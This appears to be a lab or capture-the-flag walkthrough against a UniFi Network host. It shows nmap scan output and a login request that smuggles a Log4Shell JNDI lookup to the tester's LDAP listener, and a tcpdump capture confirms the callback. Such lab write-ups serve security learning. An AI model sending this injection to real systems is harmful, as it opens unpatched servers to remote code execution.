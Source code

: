 # Enumeration

#### nmap -sC -sV -v 10.129.225.204
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.225.204:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Thu, 05 Oct 2023 08:51:24 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Thu, 05 Oct 2023 08:51:23 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 05 Oct 2023 08:51:23 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|     Request</h1></body></html>
|   Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Thu, 05 Oct 2023 08:51:24 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Issuer: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-30T21:37:24
| Not valid after:  2024-04-03T21:37:24
| MD5:   e6be:8c03:5e12:6827:d1fe:612d:dc76:a919
|_SHA-1: 111b:aa11:9cca:4401:7cec:6e03:dc45:5cfe:65f6:d829
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: UniFi Network

> open port:
>
> 1. 22 (OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0))
> 2. 6789 (ibm-db2-admin?)
> 3. 8080 (http-proxy)
> 4. 8443 (ssl/nagios-nsca Nagios NSCA)


using burpsuit as the middleman for the login page
test1
REQUEST
{"username":"test","password":"test","remember":"${jndi:ldap://10.10.14.29/whatever}","strict":true}
RESPONSE
{"meta":{"rc":"error","msg":"api.err.InvalidPayload"},"data":[]}


tcpdump -i tun0 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
05:17:10.910940 IP 10.129.225.204.42882 > 10.10.14.29.ldap: Flags [S], seq 1758863136, win 64240, options [mss 1340,sackOK,TS val 659278800 ecr 0,nop,wscale 7], length 0
05:17:10.910952 IP 10.10.14.29.ldap > 10.129.225.204.42882: Flags [R.], seq 0, ack 1758863137, win 0, length 0